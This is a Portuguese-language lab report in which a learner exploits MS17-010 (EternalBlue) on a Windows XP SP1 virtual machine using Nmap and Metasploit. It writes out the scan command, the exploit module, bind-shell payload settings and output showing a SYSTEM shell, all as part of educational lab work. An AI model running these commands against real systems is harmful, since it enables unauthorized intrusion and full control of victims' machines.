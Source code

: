 # 💻 Relatório de Exploração - Windows XP SP1 (MS17-010 - EternalBlue)

> 🚨 **AVISO**: Este relatório foi criado em ambiente isolado e controlado, apenas para fins educacionais e de laboratório. Nenhuma ação foi realizada contra sistemas reais ou em produção.

---

## 📌 Descrição

Este relatório documenta a exploração bem-sucedida de uma vulnerabilidade SMB (MS17-010) em uma máquina virtual Windows XP SP1, utilizando o framework Metasploit.  
A vulnerabilidade foi descoberta através de varredura com o Nmap e confirmada por scripts de detecção de vulnerabilidades.  
Após isso, foi selecionado e configurado um exploit com payload, resultando na obtenção de uma shell remota no sistema alvo.

---

## 🖥️ Ambiente de Laboratório

| Item            | Detalhes                              |
|-----------------|----------------------------------------|
| Atacante        | Kali Linux (Host)                      |
| Alvo            | Windows XP SP1 (VM)                    |
| IP do atacante  |                           |
| IP do alvo      | 192.168.0.112                          |
| Ferramentas     | Nmap, Metasploit                       |

---

## 🛠️ Ferramentas Utilizadas

- **Nmap** para descoberta de portas e serviços:
  ```bash
  nmap -sV -p- --script vuln -O 192.168.0.112
  ```

- **Metasploit** para exploração:
  - Exploit: `windows/smb/ms17_010_psexec`
  - Payload: `windows/shell/bind_tcp`

---

## 📡 Etapas do Ataque

### 1. Descoberta do alvo
Com o Nmap, foram identificadas portas abertas e o sistema operacional alvo:

```bash
nmap -sV -p- --script vuln -O 192.168.0.112
```

Resultado:
- Porta 445/TCP (SMB) vulnerável à **MS17-010**

---

### 2. Execução do Exploit no Metasploit

```bash
use exploit/windows/smb/ms17_010_psexec
set rhost 192.168.0.112
set payload windows/shell/bind_tcp
exploit
```

Saída importante:
```
[+] SYSTEM session obtained!
[*] Uploading payload... DTMpZLxa.exe
[*] Command shell session 2 opened
```

---

### 3. Shell Obtida com Sucesso

Sessão iniciada com sucesso como SYSTEM:

```bash
C:\WINDOWS\system32>dir
 Volume in drive C has no label.
 Directory of C:\WINDOWS\system32

 04/03/2025  02:03 PM    <DIR>          .
 04/03/2025  02:03 PM    <DIR>          ..
 ...
```

---

## ✅ Resultado Final

- ✅ **Shell remota** obtida com sucesso  
- ✅ Acesso com privilégios de **SYSTEM**  
- ✅ Exploração 100% funcional do exploit EternalBlue (MS17-010)

---

## 📘 Observações Finais

- Esse foi meu **primeiro acesso bem-sucedido** a um sistema vulnerável usando o Metasploit.  
- A combinação de estudo, prática e exploração real reforçou meu entendimento sobre exploits e payloads.  
- Este relatório será guardado como parte da minha jornada de aprendizado em cibersegurança.

---

**🗓️ Data:** 04 de April de 2025  
**🔐 Autor:** Diego Ryan

